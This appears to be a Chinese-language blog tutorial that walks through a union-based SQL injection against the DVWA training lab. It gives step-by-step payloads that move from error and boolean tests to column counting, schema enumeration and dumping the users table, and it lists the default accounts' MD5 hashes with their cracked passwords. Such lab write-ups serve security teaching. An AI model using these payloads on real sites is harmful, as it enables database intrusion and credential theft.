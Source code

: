 ```yaml
---
title: "SQL注入（Union注入）"
date: 2019-08-13T10:37:42+08:00
description: "GET - 有报错 - 单引号 - 字符型注入"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- "OWASP-TOP 10"
- "DVWA靶场"
- "SQL注入"
categories:
- "渗透测试"
series:
- "技术研究"
image: 
---
```


- 漏洞类型：SQL注入/Get 字符型

- 安全级别：Low

- 目标：通过注入SQL语句，获取 MySql 数据库存放的用户名和密码

- 页面URL：http://www.dvwa.com/vulnerabilities/sqli/?id=1（本地搭建的靶场）

![正常页面](https://ae01.alicdn.com/kf/U4ef8e082a42c404f8be88e4db38b0ef33.png)

---

## 判断注入类型

### 正常输入数字查询信息，下图为为输入3时，显示的信息。

![user id=3](https://ae01.alicdn.com/kf/Ua09c3083509142c0bd8eb5051a18ee5el.png)

### 数字后面，加上单引号测试

> http://www.dvwa.com/vulnerabilities/sqli/?id=1'&Submit=Submit#

### 得到报错，不过还不能确定是字符型，还是数字型注入。


> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1

### 去掉 id=1 后的 “单引号” 继续用布尔值测试

布尔值

> ①：?id=1 and 1=1&Submit=Submit#
> 
> ②：?id=1 and 1=2&Submit=Submit#


在正常的查询语句后，加上**"and 1=1"**和**"and 1=2"**后，页面仍然正常显示，并正常查询出了用户基本信息

![1 and 1=1](https://ae01.alicdn.com/kf/U98a6416bef494ecb942db80ba1cb148cP.png)

如果是数字型注入，id=1 后拼接 “and 1=2”后， 页面应该显示异常，或者有报错信息。
![1 and 1=2](https://ae01.alicdn.com/kf/Ubde00ab900c145fd99b418351422885aB.png)

所以，基本确定，这是一个**字符型注入**，注入的语句，要采用闭合单引号方法，使之带入后端查询。

## 判断当前页面，读取表的字段数量


> ①：'+order by 3--+
> 
> ②：'+order by 4--+


### order by 2：页面正常

![页面正常](https://images.weserv.nl/?url=https://img03.sogoucdn.com/app/a/100520146/8c97c2f5ef0dae6d74601e6629eeb1a1)

### order by 3：页面异常，报错

![order by判断字段数](https://images.weserv.nl/?url=https://img02.sogoucdn.com/app/a/100520146/c26b54c4a6b4ec505140b13414829594)

## 确认信息在当前页面，显示的位置


> '+union select 1,2--+

![确认回显位置](https://ae01.alicdn.com/kf/Ucfc3c435aa4a4862820c36cd6044fbf1P.png)


> '+union select database(),version()--+

![查询数据库名、版本信息](https://ae01.alicdn.com/kf/U04cd6a2fa8c147fa9b8c5985bc618e76a.png)


## 读取当前页面，使用的数据库、表


> '+union+select table_schema,table_name
> from+information_schema.tables
> where+table_schema=database()--+


![库名、表名](https://ae01.alicdn.com/kf/U4165d5261666491fa520a4cfddadd0229.png)

## 读取users表的所有字段


> '+union select table_name,column_name 
from information_schema.columns 
where table_schema=database() and table_name='users'--+

![user表所有字段名](https://ae01.alicdn.com/kf/Ubeb6e448ad6e445eb82d6e2038fe79ab1.png)

我们看到了 “user”，“password” 字段，这两列里面，包含的内容这就是我们得目标了。

接下来就要从users表中，读取这两个字段得内容了。

## 读取用户名和密码


> ' union select user,password from dvwa.users--+


![用户名、密码](https://ae01.alicdn.com/kf/U405e22e37ac44aedb0ef8c48d1b5b9380.png)

密码被加密保存，目测（滑稽）md5加密

## 解密md5，得到登陆密码
> admin：5f4dcc3b5aa765d61d8327deb882cf99（password）
> 
> gordonb：e99a18c428cb38d5f260853678922e03（abc123）
> 
> 1337：8d3533d75ae2c3966d7e0d4fcc69216b（charley）
> 
> pablo：0d107d09f5bbe40cade3de5c71e9e9b7（letmein）
> 
> smithy：5f4dcc3b5aa765d61d8327deb882cf99（password）



## 总结

- 先看传输参数，是用的HTTP协议中的，那种传输方式
- 再判断是字符型还是数字型的注入，选择闭合或者其他方法，保证语句生效
- 确定网站页面信息的回显位置
- 构建SQL查询语句
- "+" 和 空格效果一样，但是在cookie注入时，用"+"代替空格